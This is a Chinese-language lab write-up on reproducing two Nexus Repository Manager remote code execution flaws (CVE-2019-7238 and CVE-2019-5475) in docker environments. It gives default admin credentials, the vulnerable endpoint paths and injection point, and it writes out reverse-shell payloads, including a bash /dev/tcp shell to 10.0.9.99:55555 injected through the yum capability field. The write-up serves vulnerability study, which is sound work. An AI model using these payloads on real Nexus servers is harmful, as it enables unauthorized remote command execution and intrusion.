




vulhub上有3.x版本的漏洞环境，尝试自己搭一个2.x版本的

# Nexus Repository Manager 3.x RCE (CVE-2019-7238)

vulhub环境 https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238

`docker-compose up -d`   启动环境 <3.15

1. 登录admin账户（默认为admin/admin123）
2. 初始环境需要上传一个jar包，生产环境应该不需要此操作
3. `bash -i >& /dev/tcp/xx.xx.xx.xx/xxxxx 0>&1`反弹shell 




# Nexus Repository Manager 2.x RCE (CVE-2019-5475)

CVE编号：`CVE-2019-5475`

> Nexus Repository Manager OSS <= 2.14.13 
>
> Nexus Repository Manager Pro <= 2.14.13

编写docker-compose.yaml

```yaml
version: '3'
services:
 web:
   image: sonatype/nexus:2.12.1-01
   ports:
    - "8081:8081"
```

`docker-compose up -d`   启动环境 

漏洞点在yum插件，该插件是内置的，但是只有admin用户组才能利用此漏洞。其中createrepo 和mergerepo都可以触发漏洞



触发点在`nexus-public/plugins/yum/nexus-yum-repository-plugin/src/main/java/org/sonatype/nexus/yum/internal/capabilities/YumCapability#validate`



因为拼接命令时后面有个`--version`,所以要用`&`把后面的分开，要不会执行不了前面的命令。

value处的payload为`bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.0.9.99/55555 0>&1 &`



## ATTENTION

12.x是默认没有nexus目录的

即12.x攻击路径为`/service/siesta/capabilities`

14.x攻击路径是`/nexus/service/siesta/capabilities`

poc要修改一下

# 参考链接

1. https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2019-7238
2. https://www.secpulse.com/archives/112290.html
3. https://github.com/mpgn/CVE-2019-7238
4. https://mp.weixin.qq.com/s/E_BEp-yYKtIYAnQ6JP7fmg
5. https://github.com/shadowsock5/Poc/blob/master/nexes-manager/CVE-2019-5475.py

# 声明

本文仅供学习交流，如作他用所承受的法律责任一概与作者无关